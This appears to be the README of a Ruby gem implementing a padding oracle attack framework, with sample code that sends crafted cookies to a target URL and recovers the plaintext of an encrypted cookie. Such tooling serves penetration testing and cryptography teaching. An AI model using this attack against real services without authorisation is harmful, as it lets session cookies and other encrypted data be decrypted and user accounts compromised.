 # Paddingoracle

This is a Rubyframework for exploiting padding oracle vulnerabilities based on this fantastic Python project:

https://github.com/mwielgoszewski/python-paddingoracle

## Build status
[![Build Status](https://travis-ci.org/technion/paddingoracle.svg?branch=master)](https://travis-ci.org/technion/paddingoracle)

## Usage


You will first need to extend the module with your own padding_oracle function. Example:

```
require 'httparty'
require 'base64'
require 'uri'

URL = 'http://google.com'
module Paddingoracle
  def decrypt_oracle(string)
    string = URI.escape(Base64.strict_encode64(string))
    response = HTTParty.get(URL, cookies: {auth: string})

    raise "Invalid padding" if response.code != 200
  end
end
```

You can then run the attack like this;
```
Blocksize = 8
COOKIE = 'vulnerable encrypted data'
bcookie = Base64.decode64(COOKIE)
plain = Paddingoracle::recover_all_blocks(bcookie, Blocksize)
puts plain
```

## Contributing

This product was written to solve a specific problem - I'm happy to investigate bugs but this type of codebase is not suited to new features or "how to use" requests.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

